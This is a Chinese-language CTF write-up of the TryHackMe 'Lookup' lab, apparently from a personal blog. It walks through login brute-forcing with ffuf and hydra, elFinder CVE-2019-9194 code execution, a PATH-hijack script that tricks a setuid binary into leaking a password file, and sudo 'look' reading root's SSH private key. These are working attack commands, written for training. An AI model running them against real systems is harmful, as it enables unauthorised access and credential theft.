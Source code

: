```yaml
---
layout: post
title:  "TryHackMe Challenge Writeup: Lookup"
date:   25 June 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
今天來解TryHackMe上的Challenge: [Lookup](https://tryhackme.com/room/lookup) 

以下是我的解題思路和歷程，紀錄自己嘗試了哪些手段以及學習了哪些新的攻擊手法和切入角度
  
### Step 1. Nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5e:aa:9c:e1:dd:bb:cf:45:9b:fe:3e:2e:ef:9f:be:52 (RSA)
|   256 98:df:c7:bb:25:0a:26:fd:56:f5:30:ca:49:52:f0:15 (ECDSA)
|_  256 5c:2d:64:cf:b7:8c:d6:a9:37:e5:36:46:ee:5b:85:90 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://lookup.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 一樣，22我們不關心，直接來看80

### Step 2. port80: website
- 瀏覽器手動打開IP:80，發現一個登錄界面
- 在尋找的過程中先用 gobuster 來找可能的路徑 => 沒找到
- 用whatweb找一下網站框架版本 => 沒什麼特別的

```bash
└─$ whatweb http://10.10.181.141         
http://10.10.181.141 [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.181.141], RedirectLocation[http://lookup.thm]
http://lookup.thm [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.181.141], PasswordField[password], Title[Login Page]
```

- 然後用burp suite先觀察一下它的登錄請求 => 發現用戶名和密碼是明碼傳送，可做字典檔攻擊(先不測試)
```yaml
POST /login.php HTTP/1.1
Host: lookup.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://lookup.thm
Connection: keep-alive
Referer: http://lookup.thm/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=john&password=password
```

### Step 3. Subdomain/Vhost
- 把目標放大一點，根據題目提示好像是有隱藏的subdomain可以挖掘
- 嘗試 ffuf subdomain enumeration: `ffuf -u http://10.10.181.141/ -H "Host: FUZZ.lookup.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc 200`
- 嘗試 gobuster vhost enumeration: `gobuster vhost -u "http://10.10.181.141" --domain lookup.thm --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50`
- 暫時都沒有結果

### Step 4. 回去ffuf
- 思路是用ffuf測試出有效的用戶名，然後進一步fuzz出密碼
- `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/wordlists/dirb/big.txt -d "username=FUZZ&password=123" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"`
- 首先先觀察錯誤的用戶名的response長度: word=10
- 添加filters: `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/wordlists/dirb/big.txt -d "username=FUZZ&password=123" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 10`
- 找到用戶名 **admin** 時response長度不同(word=8)，可能為有效的用戶名: 

```bash
admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 415ms]
```  
  
- 再測試有效密碼: `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/wordlists/dirb/big.txt -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 8`
- 找到一個密碼 **password123**
- 但是當我嘗試輸入admin/password123時卻還是顯示用戶名或密碼不對
- 嘗試看看還有沒有其他用戶，但這次用別的字典檔: `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d "username=FUZZ&password=123" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 10`
- 找到另一個用戶 **jose**
- 嘗試登入後會把我們導向到 **files.lookpu.thm**；一樣，手動添加到 /etc/hosts

### Step 5. files.lookup.thm
- 首先先檢查看得到的文件有沒有有價值的東西，發現一個 credentials.txt 文件內容為: `think: nopassword`，先記下來
- 分別嘗試了用這組帳密登入 lookup.thm 和 ssh，都不行
- 那麼查查看elFinder有沒有已知漏洞，並且在網站中有一個很小的問號，點開可以查看版本號 (2.1.47)
- 直接查到 [CVE-2019-9194](https://www.exploit-db.com/exploits/46481)
![lookup-1](/assets/img/post-img/challenge-lookup-1.png)
- 直接成功，嘗試reverse shell，可以用這個 [reverse shell generator](https://www.revshells.com/)
![lookup-2](/assets/img/post-img/challenge-lookup-2.png)
- 一樣，先看/home下有什麼用戶，找到 think下有.ssh，但目前來說我們用戶是www-data，沒辦法讀取這組ssh

### Step 6. 嘗試提權到think
- linpeas 先跑
- `cat /etc/passwd`:

```bash
think:x:1000:1000:,,,:/home/think:/bin/bash
ssm-user:x:1001:1001::/home/ssm-user:/bin/sh
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
```

- 到/home下找到三個用戶: think/ssm-user/ubuntu，三個都有.ssh但目前都沒有權限
- linpeas有找到一個可疑的binary: `/usr/sbin/pwm`

```bash
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```

- 簡單執行一下看到好像是通過執行id後拿取用戶名來查詢 `/home/{username}/.password`
- 那我們創造一個優先度更高的id command讓這個程序優先執行並返回我們創造的結果。下面首先創造一個名為id的bash file，然後放在/tmp目錄下，同時添加路徑/tmp到環境變數中並且優先度最前，這樣在運行id時就會優先抓/tmp下的id:

```bash
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
export PATH=/tmp:$PATH
```

- 之後執行 `/usr/sbin/pwm` 會dump出 `/home/think/.password`。然後將這份字典檔傳到自己攻擊主機後用 hydra 爆破用戶think密碼

```bash
└─$ hydra -l think -P password_list 10.10.181.141 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-25 01:11:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.181.141:22/
[22][ssh] host: 10.10.181.141   login: think   password: josemario.AKA(think)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-25 01:11:57
```

- 找到密碼後登入用戶think，成功獲得user flag

### Step 7. 提權到root
- sudo -l 查找有哪些sudo權限執行程序

```bash
[sudo] password for think: 
Matching Defaults entries for think on ip-10-10-181-141:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-181-141:
    (ALL) /usr/bin/look
```

- 上GTFOBins查look如果有sudo權限可不可以做提權，發現可以

```bash
think@ip-10-10-181-141:~$ LFILE=/root/.ssh/id_rsa
think@ip-10-10-181-141:~$ sudo look '' "$LFILE"
```

- 依照GTFOBins上面的步驟，將path_to_file改為/root/.ssh/id_rsa(因為前面發現三個用戶都有.ssh/，可以直接猜測root也有)獲得root金鑰
- 成功登入為root，獲得root權限

### 最後自我總結
個人覺得的難點:
- 根據response長度分析合法用戶名和密碼有哪些
- admin/password123一直嘗試但是都不行，其實要讓ffuf把更多結果跑出來
- reverse /usr/sbin/pwm 來完整分析到底怎麼使用 id 指令的
- 使用自己建造的bash來替代默認執行的程序並替換環境變數
- 剩下的root提權其實就單純想太多，應該直接嘗試 `sudo -l`

## 學習資料
1. [TryHackMe Challenge: Lookup](https://tryhackme.com/room/lookup) 
2. [Lookup Writeup](https://0xb0b.gitbook.io/writeups/tryhackme/2024/lookup)

</div>
</body>
</html>

